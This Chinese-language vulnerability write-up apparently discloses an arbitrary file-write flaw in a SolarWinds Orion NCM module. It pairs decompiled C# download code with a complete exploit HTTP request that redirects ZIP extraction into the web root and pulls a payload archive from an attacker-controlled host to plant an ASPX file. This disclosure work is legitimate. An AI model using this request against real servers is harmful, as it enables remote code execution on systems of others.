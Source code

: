 ```

private bool TryDownloadDataFeed(string url, string path, out string error) 
`{` 
    bool flag = this.Download(url, path);  // &lt;----------------------------------------------------- 
    error = null; 
    bool flag2 = !flag; 
    bool result; 
    if (flag2) 
    `{` 
        this.audit.LogFailureAuditMesage(AuditModule.VulnerabilityAudit, AuditAction.FirmwareVulnerabilities, string.Format(Resources.LIBCODE_IC_131, url), Resources.LIBCODE_IC_132); 
        error = string.Format(Resources.Vulnerability_UrlIsInaccessible_Message, url); 
        result = false; 
    `}` 
    else 
    `{` 
        result = true; 
    `}` 
    return result; 
`}`
```

如上所示，NCM模块中包含一个固件漏洞管理功能，可以从外部站点下载包含JSON文件的一个ZIP文件。默认情况下，该模块会从`https://nvd.nist.gov`站点下载，但这个默认地址可以被修改。下载文件后，该模块会自动从`.zip`压缩文件中提取数据，但并不会检查解压出来的文件的扩展名，也不会验证文件上传路径。因此，攻击者有可能将文件上传至文件系统中的任意位置。该模块会在`SYSTEM`上下文中解压和写入文件。

这个缺陷利用起来非常简单。比如，攻击者可以通过如下请求，将任意ASPX文件上传至`www`目录：

```
POST /Orion/NCM/Admin/Settings/VulnerabilitySettings.aspx HTTP/1.1 
Host: 172.16.11.190:8787 
User-Agent: Mozilla/5.0 
Accept-Encoding: gzip, deflate 
Accept: */* 
Connection: keep-alive 
Origin: http://172.16.11.190:8787 
X-Requested-With: XMLHttpRequest 
X-MicrosoftAjax: Delta=true 
X-XSRF-TOKEN: CE7UJynEir5LuHr57PSgKfVaORlNgU/kYm6D+gpr+JE= 
Content-Type: application/x-www-form-urlencoded; charset=utf-8 
[...] 
Content-Length: 3994 

[...] 
older%24txtVulnMatchingScheduleTime=12%3A30%3A00+AM&amp;ctl00_ctl00_ctl00_BodyContent_ContentPlaceHolder1_adminContentPlaceholder_txtVulnMatchingScheduleTime_p=2020-9-7-0-30-0-0&amp;ctl00%24ctl00%24ctl00%24BodyContent%24ContentPlaceHolder1%2 
4adminContentPlaceholder%24txtCVEXmlDataPath=C%3A%5Cinetpub%5Cwwwroot &lt;------------------------------- 
&amp;ctl00%24ctl00%24ctl00%24BodyContent%24ContentPlaceHolder1%24adminContentPlaceholder%24chAutoDownloadCVEDataUrls=on&amp;ctl00%24ctl00%24ctl00%24BodyContent%24ContentPlaceHolder1%24adminContentPlaceholder%24gridView%24ctl02%24txtUrl=http%3A%2F%2F172.16.11.203%3A8000%2Fpoc7KWR0E.zip &lt;------------------------------------------ 
&amp;ctl00%24ctl00%24ctl00%24BodyContent%24ContentPlaceHolder1%24adminContentPlaceholder%24txtVulnScoreThreshold=5&amp;__ASYNCPOST=true
```
